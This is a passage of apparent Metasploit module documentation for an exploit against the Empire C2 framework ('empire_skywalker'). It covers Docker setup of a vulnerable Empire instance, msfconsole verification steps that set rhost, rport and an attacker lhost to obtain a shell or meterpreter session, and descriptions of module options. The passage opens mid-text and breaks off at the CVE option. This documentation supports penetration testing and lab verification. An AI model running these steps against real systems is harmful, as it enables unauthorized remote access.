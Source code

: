 (Payload will be loaded in host not in container.) or
```
docker run -it --net="host" empireproject/empire /bin/bash
cron
```
(Payload will be loaded in container but you have to manually set up cron on container.)

8. `cd setup`
9. `./reset.sh` (Empire start)
10. Execute listener.
```bash
listeners
set Host <rhost>
set Port <port>
run
```


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/empire_skywalker`
4. Do: `set rhost <rhost>`
5. Do: `set rport <port>`
6. Do: `set lhost <attacker-ip>`
7. Optional: `set CVE <cve>`
8. Do: `run`
9. Have the generated request processed by a vulnerable version of Empire
10. You should get a shell or meterpreter


## Options

###  TARGETURI (optional)

This is the Base URI path. This is used when CVE is set to `Original`. Default is `/`.

### STAGE0_URI (required)

This is the URI path requested by the initial launcher. This is used when CVE is set to `Original`. Default is `index.asp`.

### STAGE1_URI (required)

This is the URI path used by the RSA key post. This is used when CVE is set to `Original`. Default is `index.jsp`

### PROFILE (optional)

This is Empire agent traffic profile URI. This is used when CVE is set to `Original`.

### CVE (required)
